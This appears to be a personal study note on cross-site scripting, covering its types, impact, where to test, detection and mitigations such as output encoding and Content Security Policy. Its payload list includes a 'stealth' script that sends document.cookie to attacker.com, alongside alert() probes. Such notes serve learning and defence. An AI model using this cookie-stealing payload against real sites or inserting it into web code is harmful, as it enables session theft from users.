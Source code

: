 # XSS (Cross-Site Scripting)

---

## Metadata
> - **OWASP Category (2021):** A03 Injection  
> - **PortSwigger Link:** [What is cross-site scripting (XSS) and how to prevent it? | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)
>
> - **Sub-Topics:**
>   - Reflected XSS - Malicious script comes from the current HTTP request - visiting the URL executes the script   
>   - Stored XSS - Malicious script is received from an untrusted source - and is included within later HTTP responses untrusted. (Comments on blog post, contact details on an order, etc.)  
>   - DOM-based - Application contains client-side JS that processes data from an untrusted source via writing the data back to the DOM  

---

## 💡 Concept
> - **What is it?**
>   - Manipulating a website to return malicious JS to users, which would execute inside a victim’s browser… resulting in compromising their interaction with the application  
>   - Circumvents the same-origin policy (separates different websites from each other)  
>   - Can impersonate another user to access their data and carry out actions on their behalf  
>
> - **Impact**
>   - **Confidentiality:** Steal cookies, tokens, or sensitive user data  
>   - **Integrity:** Inject scripts to alter website content or user actions  
>   - **Availability:** Disrupt application functionality for users  

---

## 🛠 Exploitation Notes
> - **Where to test:**
>   - Entry point in application where input is returned in HTTP responses, and testing executable arbitrary JS  
>   - Somewhere where input in a parameter is placed in a DOM, and test each location  
>
> - **Payloads**
>   - Reflected: `<script>alert(1)</script> → now \`print()\` on Chrome since 2021`
>   - Attribute injection: `<img src=x onerror=alert(1)>`
>   - DOM-based: `<svg onload=alert(1)>`
>   - Stealth: `<script>fetch('https://attacker.com/cookie='+document.cookie)</script>`

---

## 🔍 Detection
> - Stored/Reflected = Crafted input that executed JS in entry points where HTTP responses are returned  
> - DOM = From URL parameters… see above where the input placed in a parameter is placed in the DOM, and test each location  
> - Burp Suite’s web vulnerability Scanner combines dynamic and static analysis  

---

## 🛡 Mitigation
> - Filter input on arrival via whitelist of allowed characters  
> - Encode data on output (HTTP responses)  
> - Appropriate response headers like `Content-Type` and `X-Content-Type-Options` to ensure proper interpretation  
> - Content Security Policies to reduce whichever XSS may still occur  

---

## Extras
> - **Cheat sheet / references:**  
>   [Cross-Site Scripting (XSS) Cheat Sheet – 2025 Edition | Web Security Academy](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
